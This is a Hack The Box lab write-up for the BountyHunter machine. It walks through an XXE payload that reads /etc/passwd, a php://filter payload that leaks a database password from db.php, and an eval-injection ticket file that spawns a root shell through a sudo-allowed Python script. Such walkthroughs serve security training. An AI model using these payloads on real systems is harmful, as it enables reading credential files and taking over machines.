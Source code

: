 # BountyHunter

Completed: Yes Created: August 5, 2021 12:13 AM Platform: Hack The Box

## Enumeration

### Nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### http

Found `/resources/README.txt` with:

```bash
Tasks:

[ ] Disable 'test' account on portal and switch to hashed password. Disable nopass.
[X] Write tracker submit script
[ ] Connect tracker submit script to the database
[X] Fix developer group permissions
```

log\_submit.php sends actually base64 and URL encoded XML data:

```bash
POST /tracker_diRbPr00f314.php HTTP/1.1
Host: 10.10.11.100
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 315
Origin: http://10.10.11.100
Connection: close
Referer: http://10.10.11.100/log_submit.php

data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGJ1Z3JlcG9ydCBbPCFFTlRJVFkgdGVzdCBTWVNURU0gJ2ZpbGU6Ly8vZXRjL3Bhc3N3ZCc%2bXT4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT4mdGVzdDs8L3RpdGxlPgoJCTxjd2U%2bdGVzdDwvY3dlPgoJCTxjdnNzPnRlc3Q8L2N2c3M%2bCgkJPHJld2FyZD50ZXN0PC9yZXdhcmQ%2bCgkJPC9idWdyZXBvcnQ%2b
```

So, I send it XML data with XXE and got:

```bash
HTTP/1.1 200 OK
Date: Wed, 04 Aug 2021 21:54:02 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2102
Connection: close
Content-Type: text/html; charset=UTF-8

If DB were ready, would have added:
<table>
  <tr>
    <td>Title:</td>
    <td>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
</td>
  </tr>
  <tr>
    <td>CWE:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Score:</td>
    <td>test</td>
  </tr>
  <tr>
    <td>Reward:</td>
    <td>test</td>
  </tr>
</table>
```

## Gaining access

Now, the vulnerability is very straightforward. All we have to do is to determine the way of getting access to the machine. Okay, I tried some things with SSRF and tried to include my file within. But it was a stupid idea. I had to use PHP wrappers at the beginning. Now, I used data with base64 encoded, but it doesn't give me an opportunity to insert PHP code and execute reverse shell. Okay, but I can use PHP wrapper something like that:

```bash
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE bugreport [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=db.php'>]>
		<bugreport>
		<title>&test;</title>
		<cwe>test</cwe>
		<cvss>test</cvss>
		<reward>test</reward>
		</bugreport>
```

With this I got db.php and decoded it and got password, which gives access to `development` user.

```bash
cat db.php                             
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

## Privilege escalation

Check a note and sudo:

```bash
development@bountyhunter:~$ cat contract.txt 
Hey team,

I'll be out of the office this week but please make sure that our contract with Skytrain Inc gets completed.

This has been our first job since the "rm -rf" incident and we can't mess this up. Whenever one of you gets on please have a look at the internal tool they sent over. There have been a handful of tickets submitted that have been failing validation and I need you to figure out why.

I set up the permissions for you to test this. Good luck.

-- John
```

```bash
development@bountyhunter:~$ sudo -l
Matching Defaults entries for development on bountyhunter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User development may run the following commands on bountyhunter:
    (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

You can see the source code, but can't modify it. So, the main work here is to explore the code and find a vector to privesc. This one is easy. It is an eval function, where we can put some code like \*\*`import**('os').system('ls')` and got execution of ls command. All you have to do is to pass all conditions and reach eval function. Moreover you can see that the ticketNumber is valid when it has mod 4 of 7 and it also splits the string with + sign, so, the result payload will be next:

```bash
cat pwn.md                       
# Skytrain Inc
## Ticket to HACKER 
__Ticket Code:__
**18+__import__('os').system('/bin/bash')
```

